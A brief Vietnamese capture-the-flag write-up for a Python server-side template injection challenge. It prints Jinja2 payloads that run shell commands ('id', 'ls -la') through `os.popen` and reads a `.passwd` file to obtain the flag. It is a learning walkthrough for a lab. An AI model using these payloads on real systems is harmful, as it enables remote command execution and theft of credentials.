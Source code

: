 # Python - Server-side Template Injection Introduction

25 points

Statement: This service allows you to generate a web page. Use it to read the flag!

# Solution

Ta có form challenge như sau. Có phần input `tilte` và `page content`. Mình thử payload vào 2 phần thì chỉ có `page content` là inject được.

![image](https://github.com/Llam-a/Server-Side-Template-Injection/assets/115911041/11e93d80-9eaf-4d77-b2e1-d98bff7fc20d)

Bài này thì đơn giản thôi. Bởi vì tên bài là java nên mình vào hacktricks kiếm payload. Đây là payload mình dùng 

`{{ cycler.__init__.__globals__.os.popen('id').read() }}`

![image](https://github.com/Llam-a/Server-Side-Template-Injection/assets/115911041/3ee82e4f-6169-43f8-ad7c-468f92e140b6)

Và có thể sử dụng được, tiếp tục dùng lệnh `ls -la` để list tất cả file

`{{ cycler.__init__.__globals__.os.popen('ls -la').read() }}`

![image](https://github.com/Llam-a/Server-Side-Template-Injection/assets/115911041/bf9919d1-3831-42a0-b1b8-654726c7b2c7)

Có một file tên là `.passwd` sau đó chỉ cần dùng lên cat là ta có được flag

![image](https://github.com/Llam-a/Server-Side-Template-Injection/assets/115911041/f73845fd-9dd8-488b-a285-bafd92bdb5ae)
